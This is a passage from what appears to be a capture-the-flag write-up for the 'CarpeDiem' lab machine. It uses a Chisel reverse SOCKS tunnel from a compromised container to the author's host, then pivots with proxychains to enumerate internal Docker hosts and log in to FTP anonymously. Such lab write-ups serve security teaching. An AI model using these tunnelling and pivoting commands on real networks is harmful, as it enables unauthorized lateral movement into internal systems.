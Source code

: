     Nmap done: 6 IP addresses (6 hosts up) scanned in 21.00 seconds
    

#### Tunnel with Chisel

At this point it’s worth uploading
[Chisel](https://github.com/jpillora/chisel) to get a proxy into this network
(though it’s possible to complete CarpeDiem without this). I’ll host it with
Python, and the upload it with `wget`. Then I’ll start the server on my VM:

    
    
    oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
    2022/11/28 21:04:03 server: Reverse tunnelling enabled
    2022/11/28 21:04:03 server: Fingerprint QgJndP8XXAYGo7Jf2+vSTSFH4iAa+tNYtrbWrm82J4k=
    2022/11/28 21:04:03 server: Listening on http://0.0.0.0:8000
    

And I’ll connect from the container:

    
    
    www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:socks 
    2022/11/28 21:05:25 client: Connecting to ws://10.10.14.6:8000
    2022/11/28 21:05:25 client: Connected (Latency 86.893335ms)
    

I’ll configure both `proxychains` and FoxyProxy to use this socks proxy, and
now I can interact with hosts on this subnet. For example, the .1 is showing
the “Coming Soon” site:

![image-20221128160801212](https://0xdfimages.gitlab.io/img/image-20221128160801212.png)

#### 172.17.0.1 - host

Typically in Docker the .1 is the host. The fact that it matches what I see on
the given IP for CarpeDiem is a good sign that’s the case as well.

#### 172.17.0.2 - backdrop

`nmap` showed this host as listening on HTTP (80), HTTPS (443), and FTP (21).
The HTTP site just redirects to HTTPS. This is an instance of [Backdrop
CMS](https://backdropcms.org/):

![image-20221128161111930](https://0xdfimages.gitlab.io/img/image-20221128161111930.png)

It shows the hostname of `backdrop.carpediem.htb`. I’ll add that to my `hosts`
file, but I can’t reach it from my VM directly. I don’t have login information
(the creds from above don’t work), and I can’t find any unauthenticated
exploits for Backdrop CMS.

There is an FTP server on the host, and it does allow anonymous login:

    
    
    oxdf@hacky$ proxychains ftp 172.17.0.2
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:21  ...  OK
    Connected to 172.17.0.2.
    220 (vsFTPd 3.0.3)
    Name (172.17.0.2:oxdf): anonymous
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp>
    
